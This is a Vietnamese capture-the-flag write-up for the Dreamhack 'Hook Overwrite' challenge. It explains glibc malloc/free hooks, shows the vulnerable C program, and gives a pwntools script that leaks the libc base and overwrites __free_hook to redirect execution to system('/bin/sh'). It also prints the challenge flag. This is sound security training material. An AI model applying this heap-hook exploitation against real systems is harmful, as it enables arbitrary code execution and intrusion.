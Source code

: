 # Hook Overwrite

trước khi vào chall này thì chúng ta **cần tìm hiểu về Hook Overwrite trên dreamhack và JHT Pwner nha**

**dreamhack:** https://learn.dreamhack.io/11#17

theo như những gì mình hiểu thì:

## Hook

![image](https://github.com/gookoosss/CTF/assets/128712571/d677a5e5-35aa-4bb4-818f-0747c87eb8fa)



- trong các hàm **malloc, realloc, free** thì có các hàm hook tương ứng là **malloc_hook, __realloc_hook và __free_hook** 
- khi chạy vào **malloc, realloc, free,** nó sẽ kiểm tra xem các cái giá trị hook có phải là null không, nếu không phải thì chúng sẽ trỏ đến cái địa chỉ mà hook đang chứa
- Các hàm liên quan tới heap như malloc, realloc và free đều có những cái hook riêng. **Khi ta kiểm soát được các hook đó đồng nghĩa với việc ta hoàn toàn có thể cho chương trình thực thi các lệnh tùy ý mà ta mong muốn.**

### source C:

```c 
// gcc -o init_fini_array init_fini_array.c -Wl,-z,norelro
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    long *ptr;
    size_t size;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("Size: ");
    scanf("%ld", &size);

    ptr = malloc(size);

    printf("Data: ");
    read(0, ptr, size);

    *(long *)*ptr = *(ptr+1);

    free(ptr);
    free(ptr);

    system("/bin/sh");
    return 0;
}

```


waoo bài này có **hàm system("/bin/sh") ngay trong hàm main kìa** , nên h ta chỉ cần chạy hết chương trình là lấy shell thôi hehe


![image](https://github.com/gookoosss/CTF/assets/128712571/24c9ddda-66cf-4fd6-a2e0-daf585e70725)

ôi không ta bị **lỗi double free** rồi :(((

```
nghĩa là ta chỉ chạy qua được hàm free 1 lần thôi, nếu chạy qua lần nữa sẽ bị lỗi đó
```

**vậy thì ý tưởng của ta bây giờ là làm sao thực thi được shell khi đi qua free lần đầu** 

lúc này thì ta cần sử dụng `kĩ thuật Hook Overwrite` mà ta vừa học để khai thác

## Ý tưởng:

- chương trình cho ta địa chỉ stdout nên từ đây ta có thể **dễ dàng leak được libc base**
- có được địa chỉ libc base rồi nên ta có thể **sử dụng __free_hook để thực thi địa chỉ mình muốn**
- khi chạy vào hàm free lần đầu , **lợi dụng __free_hook để trỏ đến địa chỉ system để lấy shell, tránh được lỗi double free**

à ở đây có 1 vần đề ta cần lưu ý:

![image](https://github.com/gookoosss/CTF/assets/128712571/f726634a-fd51-4245-aba2-1a1723cb3e36)


phân tích đoạn mã ASM này thì ta thấy là đầu tiên chương trình sẽ gán giá trị ta nhập vào Data vào rax, sau đó lấy 8byte đầu gán vào rdx, tiếp theo lấy lại 8byte sau gán vào rax, cuối cùng thì gán rax vào địa chỉ là rdx đang trỏ đến

**=> ta phải gán cho rdx bằn 1 địa chỉ hợp lệ là 8byte đầu ta nhập vào Data**

vì vậy ta sẽ gán **8byte đầu là địa chỉ của __free_hook**

8byte tiếp theo sẽ là địa chỉ **0x0000000000400a11 nằm trước system**

![image](https://github.com/gookoosss/CTF/assets/128712571/63cfd7b7-4ae1-4aaf-8587-2aedda47f5a3)


## script:

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hook_patched")
libc = ELF("./libc-2.23.so")
ld = ELF("./ld-2.23.so")
context.binary = exe
p = process([exe.path])
# p = remote("host3.dreamhack.games", 22503)



gdb.attach(p, gdbscript = '''
b*main+149
c
''')
           
input()

p.recvuntil(b'stdout: ')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x3c5620
log.info('libc leak :' + hex(libc_leak))
log.info('libc base :' + hex(libc.address))


p.sendlineafter(b'Size: ', b'512')
payload = flat(
    libc.sym['__free_hook'], # địa chỉ của __free_hook
    0x0000000000400a11
)
    
p.sendlineafter(b'Data: ', payload)

p.interactive()

```

## Flag:

**DH{c5e5c5c0a45d71d2666571ab2dc09cf4c4e750402ab4bb4c8a57091063ee7418}**


